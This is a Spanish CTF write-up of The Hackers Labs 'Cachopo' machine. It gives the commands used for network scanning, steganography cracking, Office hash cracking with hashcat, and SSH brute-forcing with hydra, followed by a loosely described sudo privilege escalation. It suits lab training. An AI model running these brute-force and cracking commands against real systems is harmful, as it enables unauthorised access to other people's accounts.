










# CTF Write-up: Cachopo – The Hackers Labs

## Introducción

En este reto CTF, se trabajó sobre la máquina **Cachopo** del laboratorio de The Hackers Labs. Este desafío abarca múltiples técnicas ofensivas como:

- Enumeración de red.
- Esteganografía en archivos.
- Ataques de fuerza bruta.
- Escalada de privilegios.

A través de una correcta identificación de configuraciones erróneas y análisis detallado, se logró comprometer por completo el sistema objetivo. Este write-up documenta cada paso seguido para lograr el acceso a nivel **root**.

---


## 1. Enumeración de Red

### Escaneo de dispositivos en red

```bash
arp-scan -I eth0 --localnet
```
## Uso de NMAP
```bash
nmap -p- -sCV --open -sS --min-rate 5000 -vvv -n -Pn 192.168.101.128
``` 


### Descubrimiento de hosts activos

```bash
nmap -sP 192.168.101.128/24
```


### Escaneo detallado de puertos y servicios

```bash
nmap -sV -sC -p- 192.168.101.128
```


**Resultado**:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3
80/tcp open  http    Apache httpd 2.4.61
```

- **Puerto 22**: SSH.
- **Puerto 80**: HTTP (con redirección a `cachopo.thl`).


---

## 2. Análisis del Servicio Web


### Acceso inicial

- El sitio web redireccionaba a `http://cachopo.thl/`.
- Se añadió `192.168.101.128 cachopo.thl` a `/etc/hosts`.


### Descarga de archivo sospechoso

- Se descargó una imagen JPG desde el sitio.
- La imagen estaba protegida y contenía información oculta.


---

## 3. Esteganografía

###  Uso de StegCracker

```bash
stegcracker imagen.jpg /usr/share/wordlists/rockyou.txt
```


**Contraseña obtenida**: `doggies`

- Usando la clave obtenida se puede acceder a la informacion cifrada mediante esteganografia, encontrando el archivo `directorio.txt`.
- Se verifica el contenido del archivo y se encuentra informacion de interes para continuar con el descubrimiento.


  
- Se extrajo un archivo oculto desde la imagen.
- Dentro, se encontró un archivo llamado `Cocineros`.


---

## 4. Análisis del Archivo “Cocineros”

### Verificación de tipo de archivo

```bash
file Cocineros
```

→ Se detectó como archivo `.CDFV2 cifrado` encontrando que es un documento compuesto de Offices.


### Extracción de hash con `office2john`

→ Al ser un documento de Office cifrado, se utiliza John The Ripper para obtener el hash y poder usuar fuerza bruta para decifrar la contraseña.

```bash
office2john Cocineros > cdf.hash
```

### Ataque de fuerza bruta


```bash
hashcat -m 9400 -a 0 cdf.hash /usr/share/wordlists/rockyou.txt -o pass.txt --outfile-format=2
```


**Contraseña recuperada**: `horse1`

---

## 5. Análisis del Documento

- Al abrir el documento (`Cocineros.docx`) con LibreOffice, se encontraron **tres nombres**, potenciales usuarios en la maquina.


Estos se usaron como posibles usuarios para ataque SSH:

```bash
hydra -l carlos -P /usr/share/wordlists/rockyou.txt ssh://192.168.101.128 -t 4
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.101.128 -t 4
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.101.128 -t 4
```




Se obtienen credenciales del usuario carlos. 






---

## 6. Acceso a SSH

Se logra tener acceso a la maquina atraves de SSH, con las credenciales obtenidas anteriormente



Logrando asi obtener el flag de usuario



---

## 7. Escalada de Privilegios

### Ver permisos que puede ejecutar carlos dentro de `sudoers`:

```bash
sudo -l
```

- Se identificó un **binario vulnerable** con permisos sudo y sin uso de contraseña.



### Ejecución del binario vulnerable



- Al ejecutarlo, se logró acceso a **root** gracias a una mala configuración de permisos.
- Con los permisos de root, se puede explorar los archivos y encontrar finalmente el flag de root.



---

## 🏁 8. Conclusión

Este CTF nos permitió aplicar varias técnicas clave de pentesting:

- Enumeración de red y servicios.
- Esteganografía aplicada.
- Ataques de fuerza bruta a servicios.
- Escalada de privilegios basada en binarios vulnerables.

📢 ¡Acceso root conseguido!

---

## 📷 CTF completo, encontrando los dos flags requeridos




